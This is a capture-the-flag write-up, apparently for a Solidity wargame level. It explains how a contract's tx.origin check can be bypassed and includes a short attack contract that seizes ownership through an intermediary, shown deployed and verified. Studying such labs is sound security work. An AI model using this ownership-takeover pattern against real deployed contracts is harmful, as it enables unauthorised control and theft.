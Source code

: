 # Task

Claim ownership of the contract below to complete this level.

# Contract 
 
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
What does this contract do??

1. The `owner` variable stores the address of the current owner, initially set to the address that deployed the contract (msg.sender in the constructor).

2. The `changeOwner` function can be called by anyone, but the ownership will only be transferred if `tx.origin` (the original external account initiating the transaction) is different from `msg.sender` (the immediate caller of the function).

Now, this restriction prevents a direct call from changing ownership because I tried to change  ownership directly using cast but then it didn't work; it requires a contract or intermediary to call the function on behalf of the original sender. 

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
This attack contract exploits the Telephone contract's ownership change condition. It calls `changeOwner` through a contract (instead of directly), which tricks the `Telephone contract` into satisfying the `tx.origin != msg.sender` check, allowing ownership to be transferred to the specified address.

Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)

Checking the owner of the contract again

![image](https://github.com/user-attachments/assets/f7be04f3-be92-4371-b83a-bcde020e9291)

We already became the owner of the contract

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/e95c2118-0567-4d69-aa7e-c5175c2a553c)

We have successfully completed this level

-------------------------

Till Next Time :xD






































